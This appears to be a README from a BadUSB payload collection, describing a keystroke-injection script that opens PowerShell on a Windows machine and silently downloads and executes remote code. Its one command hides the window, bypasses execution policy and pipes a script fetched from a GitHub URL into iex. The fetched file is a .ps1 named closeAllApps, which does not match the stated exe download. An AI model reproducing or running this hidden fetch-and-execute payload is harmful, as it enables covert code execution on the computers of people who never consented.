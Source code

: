 # Invisible Download exe - BadUSB ✅

This script invisibly downloads an exe from an url that you will have to provide, then it executes the exe file.

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script invisibly downloads an exe from an url that you will have to provide, then it executes the exe file.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Opens a powershell
* Execute command to download exe, and execute it 

All
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/CloseAllApps/closeAllApps.ps1').Content"
```
